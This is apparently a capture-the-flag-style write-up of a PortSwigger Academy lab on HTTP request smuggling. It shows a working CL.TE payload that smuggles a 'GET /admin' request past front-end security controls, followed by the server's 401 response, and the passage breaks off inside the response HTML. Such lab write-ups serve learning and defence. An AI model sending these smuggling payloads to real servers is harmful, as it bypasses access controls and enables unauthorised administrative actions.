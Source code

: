 ## 1. Introduction & Challenge

Frontend doesn't support chunked encoding, while the backend processes requests using chunked encoding.

There's an admin panel "/admin" but the security controls implemented on the frontend server blocks access to it.

The challenge here is to smuggle a request to the backend that accesses the admin panel and deletes a user with the name "carlos".

Attacking
```http 
Attacking
POST / HTTP/1.1
Host: 0a57003e032e35ce81e67043008300bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

In this attacking request we try to smuggle to the backend the "GET /admin ..." header, by first using the Content-Length for the frontend and adding a "0" in the beginning of the body, as that would tell the backend the end of chunked data, and leave the remaining part for as the next request.

Response:
```html
HTTP/1.1 401 Unauthorized
Content-Type: text/html; charset=utf-8
Set-Cookie: session=Gv3xglChjKRlrAWAUiYJPn0sU5MHmpc9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 2676

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability</h2>
                            <a class=link-back href='https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
```